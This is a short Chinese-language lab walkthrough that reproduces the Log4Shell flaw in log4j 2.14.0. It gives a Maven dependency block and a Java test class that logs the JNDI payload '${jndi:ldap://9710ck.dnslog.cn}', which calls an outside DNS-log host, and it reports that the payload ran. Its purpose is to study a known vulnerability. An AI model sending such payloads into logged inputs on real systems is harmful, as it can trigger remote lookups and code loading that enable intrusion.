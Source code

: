 使用 IDEA 创建一个 Maven 项目，使用 pom.xml 配置 log4j 2.14.0：

```bash
<dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-web</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>
```

测试程序：编写一个 Java 测试类，动态传入 logger.error(str) 的字符串参数。

```bash
package org.example;

import org.apache.logging.log4j.*;
import java.lang.String.*;

public class Main {
    public static void main(String[] args) {


        Logger logger = LogManager.getLogger();

        //String poc = "${java:os}";
        String poc = getInput();

        logger.error(poc);

    }

        private static String getInput(){
            return "${jndi:ldap://9710ck.dnslog.cn}";
        }

}
```

运行测试，确认成功执行 payload：

[![](assets/1704273616-a1ea8f7a479e5bb6e800b772fc977db9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103152910-c9165040-aa09-1.png)
